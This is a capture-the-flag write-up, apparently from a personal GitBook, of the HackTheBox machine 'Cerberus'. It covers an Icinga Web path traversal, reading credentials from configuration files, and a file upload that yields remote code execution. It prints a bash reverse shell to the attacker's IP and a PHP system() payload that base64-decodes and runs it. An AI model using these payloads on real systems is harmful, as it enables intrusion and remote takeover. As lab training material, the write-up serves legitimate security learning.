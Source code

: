 ```yaml
---
description: https://app.hackthebox.com/machines/534
---
```


# 🐶 Cerberus

<figure><img src="../../../../.gitbook/assets/image (947).png" alt=""><figcaption></figcaption></figure>

We start by scanning our application and looking at the output we can imagine a web server with some sort of pivoting into an internal server:

<figure><img src="../../../../.gitbook/assets/image (948).png" alt=""><figcaption></figcaption></figure>

So we can see this landing page after putting everything we need into the /etc/hosts file:

<figure><img src="../../../../.gitbook/assets/image (949).png" alt=""><figcaption></figcaption></figure>

after looking up the known exploits:

{% embed url="https://www.sonarsource.com/blog/path-traversal-vulnerabilities-in-icinga-web/" %}

This hits my eye:

<figure><img src="../../../../.gitbook/assets/image (951).png" alt=""><figcaption></figcaption></figure>

I'll fire up burp and try to look for this file ->

and after a bit of troubleshooting, we find this entry point:

<figure><img src="../../../../.gitbook/assets/image (952).png" alt=""><figcaption></figcaption></figure>

So we got a nice file read vuln right here and we can see the DC.cerberus.local domain that looks like an internal network

so we can pretty much go and look at what would be some web config pages with inciga that we would want to read ->

{% embed url="https://icinga.com/docs/icinga-web/latest/doc/03-Configuration/" %}

<figure><img src="../../../../.gitbook/assets/image (953).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (954).png" alt=""><figcaption></figcaption></figure>

So we look around those files and find something fun:

<figure><img src="../../../../.gitbook/assets/image (956).png" alt=""><figcaption></figcaption></figure>

So we can find matthew in the Admin group and his creds and we can access the dashboard thanks to those:

&#x20;

<figure><img src="../../../../.gitbook/assets/image (957).png" alt=""><figcaption></figcaption></figure>

So we see some stuff about modules, let's keep that in mind. In the first website we could see an auth user CVE:

<figure><img src="../../../../.gitbook/assets/image (959).png" alt=""><figcaption></figcaption></figure>

So we see something about ssh ressource, can we find this on the website:

<figure><img src="../../../../.gitbook/assets/image (960).png" alt=""><figcaption></figcaption></figure>

I see a private key input, so i gen my key:

```
openssl genrsa -out mykey.pem 1024
```

<figure><img src="../../../../.gitbook/assets/image (962).png" alt=""><figcaption></figcaption></figure>

then i'll upload everything using my own key:

<figure><img src="../../../../.gitbook/assets/image (961).png" alt=""><figcaption></figcaption></figure>

I just modified the user since the article talked about saving the resource outside the intended directory and was able to access my key using this technique:

<figure><img src="../../../../.gitbook/assets/image (963).png" alt=""><figcaption></figcaption></figure>

Since \<e have access to the files, maybe we can trigger a PHP revers shell:

```
echo -n '/bin/bash -i >& /dev/tcp/10.10.14.141:3636 0>&1' | base64 -w 0
```

<figure><img src="../../../../.gitbook/assets/image (976).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (979).png" alt=""><figcaption></figcaption></figure>

```
<?php system("echo -n L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjE0MTozNjM2IDA+JjE | base64 -d | bash")?>
```

We can see how the CVE is trhiggered:

[https://www.sonarsource.com/blog/path-traversal-vulnerabilities-in-icinga-web/](https://www.sonarsource.com/blog/path-traversal-vulnerabilities-in-icinga-web/)

<figure><img src="../../../../.gitbook/assets/image (980).png" alt=""><figcaption></figcaption></figure>

So for the payload to be triggered, we need to put a null byte in between the cert and the payload

So we put a null byte in between and forward the request:

<figure><img src="../../../../.gitbook/assets/image (981).png" alt=""><figcaption></figcaption></figure>

And we can see here how we trigger the code, we have to change the default path of the modules to the place we put our payload:

<figure><img src="../../../../.gitbook/assets/image (982).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (983).png" alt=""><figcaption></figcaption></figure>

We change this to /dev/shm


